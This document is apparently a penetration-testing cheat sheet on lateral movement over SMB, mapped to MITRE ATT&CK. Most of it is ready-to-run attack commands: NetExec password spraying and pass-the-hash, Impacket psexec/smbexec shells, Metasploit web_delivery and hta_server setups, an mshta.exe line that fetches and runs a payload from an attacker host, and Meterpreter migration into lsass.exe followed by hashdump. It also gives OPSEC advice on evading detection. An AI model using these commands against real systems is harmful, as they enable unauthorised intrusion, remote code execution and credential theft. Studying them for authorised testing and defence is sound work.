

A comprehensive guide for lateral movement via SMB (Port 445). This note covers Impacket's `psexec.py` (drops a binary to `ADMIN$`), `smbexec.py` (uses named pipes without dropping a binary), and NetExec (`nxc`) for rapid spraying and execution.

<Callout type="info" title="MITRE ATT&CK Mapping">
[T1021.002 - Remote Services: SMB/Windows Admin Shares](https://attack.mitre.org/techniques/T1021/002/)
</Callout>




---

## NetExec (nxc) - Rapid Execution & Spraying

<Callout type="success" title="Using NetExec for SMB Exploitation">
NetExec (successor to CrackMapExec) is the fastest way to validate credentials, spray passwords, and execute commands across subnets without needing an interactive shell.
</Callout>

<Tabs>
  <Tab title="Brute Force / Spraying">
    ```bash
    # Brute force using a password list (Use --local-auth for local accounts)
    nxc smb 192.168.1.0/24 -u administrator -p /usr/share/wordlists/unix_passwords.txt --local-auth
    ```
  </Tab>
  <Tab title="Remote Command Execution">
    ```bash
    # Execute CMD commands (-x)
    nxc smb x.x.x.x -u administrator -p 'pass123' -x 'whoami'

    # Execute PowerShell commands (-X)
    nxc smb x.x.x.x -u administrator -p 'pass123' -X 'Get-Process'
    ```
  </Tab>
  <Tab title="Pass-the-Hash (PtH) via SMB">
    ```bash
    # Authenticate using NTLM hash and execute a command
    nxc smb x.x.x.x -u administrator -H 00000000000000000000000000000000:NTLM_HASH -x 'ipconfig'
    ```
  </Tab>
</Tabs>

---

## Impacket (Interactive Shells)

<Callout type="danger" title="psexec.py vs smbexec.py">
Both tools provide a semi-interactive shell over SMB, but they operate differently under the hood. Choose based on your OPSEC needs.
</Callout>

<Tabs>
  <Tab title="psexec.py (Drops Binary)">
    Copies a custom executable to the `ADMIN$` share, creates a temporary service to run it, and cleans it up.
    ```bash
    # Using Plaintext Password
    psexec.py username:password@x.x.x.x

    # Using NTLM Hash (Pass-the-Hash)
    psexec.py username@x.x.x.x -hashes aad3b435b51404eeaad3b435b51404ee:NTLM_HASH
    ```
  </Tab>
  <Tab title="smbexec.py (No Binary Drop)">
    Executes commands by creating a temporary service that pipes standard input/output through SMB named pipes. Does not drop a custom executable to disk.
    ```bash
    # Using Plaintext Password
    smbexec.py username:password@x.x.x.x

    # Using NTLM Hash (Pass-the-Hash)
    smbexec.py username@x.x.x.x -hashes aad3b435b51404eeaad3b435b51404ee:NTLM_HASH
    ```
  </Tab>
</Tabs>

---

## Execution & Payload Delivery (Metasploit Integration)

<Callout type="tip" title="Upgrading to Meterpreter">
Sometimes a basic CMD shell via PsExec/SmbExec isn't enough. You can use Metasploit to generate a payload delivery mechanism, and then execute the delivery command inside your newly gained shell.
</Callout>

<Tabs>
  <Tab title="Method 1: Web Delivery (PowerShell)">
    <Steps>
      <Step title="Step 1: Setup the Metasploit handler">
        ```bash
        msfconsole -qx "use exploit/multi/script/web_delivery;set lhost <KALI_IP>;set lport <LPORT>;set target 2;exploit"
        ```
      </Step>
      <Step title="Step 2: Execute in CMD Shell">
        Copy the generated PowerShell command and paste it directly into the CMD shell:
        ```cmd
        C:\Windows\system32> powershell.exe -nop -w hidden -c "IEX..." 
        ```
      </Step>
    </Steps>
  </Tab>

  <Tab title="Method 2: HTA Server (Stealthier Execution)">
    <Steps>
      <Step title="Step 1: Setup the HTA Server in Metasploit">
        ```bash
        msfconsole -q
        msf6> search hta_server
        msf6> use exploit/windows/misc/hta_server
        msf6> set payload windows/meterpreter/reverse_tcp
        msf6> set LHOST <KALI_IP>
        msf6> set LPORT <LPORT>
        msf6> exploit
        ```
      </Step>
      <Step title="Step 2: Execute via mshta.exe">
        Inside your CMD shell, use `mshta.exe` to download and execute the payload:
        ```cmd
        C:\Windows\system32> mshta.exe http://<KALI_IP>/ajdsf.hta
        ```
      </Step>
    </Steps>
  </Tab>
</Tabs>

---

## Post-Exploitation (Credential Dumping)

<Callout type="success" title="Meterpreter Actions">
Once the Metasploit payload is executed, you will get a Meterpreter session. To dump credentials, you must migrate to a stable system process that holds the credentials, such as `lsass.exe`.
</Callout>

<Steps>
  <Step title="Step 1: Migrate to lsass.exe">
    ```ruby
    # 1. Migrate to the lsass.exe process
    meterpreter> migrate -N lsass.exe
    ```
  </Step>
  <Step title="Step 2: Dump Password Hashes">
    ```ruby
    # 2. Dump local password hashes (SAM database)
    meterpreter> hashdump
    ```
  </Step>
</Steps>

---

## OPSEC & Detection Notes

<Callout type="danger" title="Operational Security (OPSEC) & Detection Notes">
* **psexec.py:** Very noisy. Drops a custom executable to `ADMIN$` and creates a Windows Service (Event ID 7045 - Service Creation).
* **smbexec.py:** Stealthier than PsExec (no binary dropped), but still creates and deletes a temporary service for the duration of your session, which generates Windows Event Logs.
* **NetExec (nxc):** Also generates temporary services for every command executed via `-x` or `-X`.
* **Stealth Alternative:** If you need stealthier Lateral Movement without creating services, use `wmiexec.py` or `nxc wmi` (which operates over DCOM/RPC).
</Callout>
